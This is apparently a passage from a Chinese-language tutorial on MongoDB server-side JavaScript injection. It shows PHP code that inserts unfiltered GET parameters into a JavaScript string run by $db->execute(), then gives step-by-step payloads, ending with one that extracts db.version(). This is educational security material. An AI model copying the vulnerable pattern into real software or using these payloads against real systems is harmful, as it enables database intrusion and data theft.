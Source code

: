 ```
$q = "function() { var loginn = '$login'; var passs = '$pass'; db.members.insert({id : 2, login : loginn, pass : passs}); }";

```

当$login 与$pass 是直接从外界提交到参数获取：

```
$login = $_GET['login'];
$pass = $_GET['password']; 
```

并且没有任何过滤，直接带入查询：

```
$db->execute($q);
$cursor1 = $collection->find(array("id" => 2));
foreach($cursor1 as $obj2){
echo "Your login:".$obj2['login'];
echo "<br>Your password:".$obj2['pass'];
} 

```

输入测试数据：

```
?login=user&password=password 
```

返回结果将是：

```
Your login: user
Your password: password 
```

输入

```
?login=user&password='; 
```

页面将会返回报错。

输入

```
/?login=user&password=1'; var a = '1 
```

页面返回正常，如何注入出数据呢：

```
?login=user&password=1'; var loginn = db.version(); var b=' 
```

看一下返回结果：

![enter image description here](img/img5_u70_jpg.jpg)
